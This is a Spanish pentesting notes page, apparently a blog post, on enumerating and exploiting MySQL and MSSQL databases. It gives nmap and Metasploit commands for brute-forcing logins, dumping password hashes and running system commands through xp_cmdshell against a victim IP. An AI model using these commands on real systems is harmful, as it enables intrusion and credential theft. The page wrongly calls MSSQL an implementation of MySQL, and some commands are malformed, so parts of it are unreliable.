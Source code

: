 ```yaml
---
title: 'Bases de datos con MySQL'
description: 'Notas sobre cómo explotarlas'
pubDate: 2024-01-02
author: 'Nicolas Riquelme'
tags: ["Hacking", "DB", "BBDD", "shell", "SQL"]
tableOfContents:
  minHeadingLevel: 2
  maxHeadingLevel: 3
---
```

# MySQL
MySQL es una solución de base de datos muy popular por su rendimiento, facilidad de uso, bajo costo y compatibilidad con muchos lenguajes y plataformas. Usa el lenguaje SQL (Structured Query Language) para interactuar con las bases de datos. Permite crear bases de datos, tablas, insertar/modificar/eliminar registros, realizar consultas, etc... MySQL suele usar por defecto el puerto TCP 3306.


## Enumeración
### Enumeración básica
```bash
nmap -p3306 -sV {ip víctima}							# para ver sólo la información relativa a las bases de datos con MySQL
```
### Enumeración avanzada
Los siguientes ejemplos extienden el comando "nmap -p3306 -sV {ip víctima}"
```bash
--script=mysql-info		# para ver información detallada sobre el servidor de bases de datos
--script=mysql-users --script-args="mysqluser='{usuario}',mysqlpass='{contraseña}'"	# para ver información detallada sobre el usuario
--script=mysql-databases --script-args="mysqluser='{usuario}',mysqlpass='{contraseña}'"	# para ver información detallada sobre las bases de datos
--script=mysql-variables --script-args="mysqluser='{usuario}',mysqlpass='{contraseña}'"	# para listar las variables de entorno de las bases de datos
--script=mysql-audit --script-args="mysql-audit.mysqluser='{usuario}',mysql-audit.password='{contraseña}',mysql-audit.filename=''192"	# para listar las variables de entorno de las bases de datos


```
## Acceso
```bash
mysql -h {ip víctima} -u {usuario} -p {password} 	# Si no se pone el tag del password saldrá un prompt para facilkitarlo, en caso de que el usuario indicado use contraseña
```
Una vez dentro se ha de tener en cuenta que todos los comandos han de acabar en **;** para que sean ejecutados. Los comandos básicos serían:
```ruby
SHOW DATABASES;													# Muestra las bases de datos existentes
USE {nombre de la base de datos};								# Selecciona la base de datos con la que trabajar
SHOW TABLES;													# Muestra las tablas dentro de la base de datos seleccionada
DESCRIBE {tabla};												# Muestra la estructura de la tabla
SELECT * FROM {tabla};											# Consulta todos los registros de una tabla
INSERT INTO {tabla} VALUES {loquesea};							# Inserta nuevos registros en una tabla
UPDATE {tabla} SET {columna} = {valor} WHERE {condición};		# Actualiza registros existentes que encajen con la condición
DELETE FROM {tabla} WHERE {condición};							# Elimina los registros que cumplan con una condición
CREATE DATABASE {nombre de la nueva base de datos};				# Crea una nueva base de datos
CREATE TABLE {tabla};											# Crea una nueva tabla
ALTER TABLE {tabla} {modificación};								# Modifica la estructura de la tabla
DROP TABLE {tabla};												# Elimina la tabla
SELECT {columna} FROM {tabla} WHERE {condición};				# Consulta
SHOW GRANTS;													# Muestra los permisos del usuario actual
HELP;															# Muestra el manual de ayuda		
```
**NOTA¹**: Existen consultas complejas, con uniones entre tablas/DB/loquesea complejísimas, pero quedan fuera del alcance de este documento.

**NOTA²**: el lenguaje en si **NO ES CASE SENSITIVE** es decir, que los comandos pueden ser escritos en minúsculas y serían reconocidos igualmente, pero para favorecer la lectura humana, se suele haceer así.
### Enumeración avanzada
```bash
# Enumera los directorios en los que el usuario de la base de datos tiene permisos de escritura
use auxiliary/scanner/mysql/mysql_writable_dirs
	set RHOSTS {ip víctima}
	set dir_list /usr/share/wordlists/metasploit/directory.txt
	set verbose false
	set threads 5
	set password ""
	run

# Proporciona hashes de las contraseñas del usuario selecionado
use auxiliary/scanner/mysql/mysql_hashdump
	set RHOSTS {ip víctima}
	set username {usuario o root}
	set password {contraseña o ""}
	set threads 5
	run

nmap -p3306 -sV {ip víctima} --script=mysql-empty-password		# Verifica si permite que algun usuario se pueda loguear sin contraseña

```
## MSSQL
Implementación desarrollada por Microsoft, para la base de datos MySQL. Usa el puerto TCP 1433.

```bash
nmap -p1433 {ip víctima} --script ms-sql-info
nmap -p1433 {ip víctima} --script ms-sql-ntlm-info --script-args mssql.instance-port=1433
nmap -p1433 {ip víctima} --script ms-sql-brute --script-args userdb={diccionario},passdb={diccionario}
nmap -p1433 {ip víctima} --script ms-sql-empty-password
nmap -p1433 {ip víctima} --script ms-sql-query --script-args mssql.username={usuario},mssql.password={contraseña},ms-sql-query.query="{query}" 	# p.e. "SELECT * FROM master..syslogins"
nmap -p1433 {ip víctima} --script ms-sql-dump-hashes --script-args mssql.username={usuario},mssql.password={contraseña)
nmap -p1433 {ip víctima} --script ms-sql-xp-cmdshell --script-args mssql.username={usuario},mssql.password={contraseña),ms-sql-xp-cmdshell.cmd="{comando}"
```

### Metasploit
```ruby
use auxiliary/scanner/mssql/mssql_login
	set RHOSTS {ip víctima}
	set user_file {path a diccionario}
	set pass_file {path a diccionario}
	set threads 5
	run

use auxiliary/admin/mssql/mssql_enum
	set RHOSTS {ip víctima}
	run

use auxiliary/admin/mssql/mssql_enum_sql_logins
	set RHOSTS {ip víctima}
	run

use auxiliary/admin/mssql/mssql_exec
	set RHOSTS {ip víctima}
	set cmd {comando a probar}
	run

use auxiliary/admin/mssql/mssql_enum_domain_accounts
	set RHOSTS {ip víctima}
	run
```
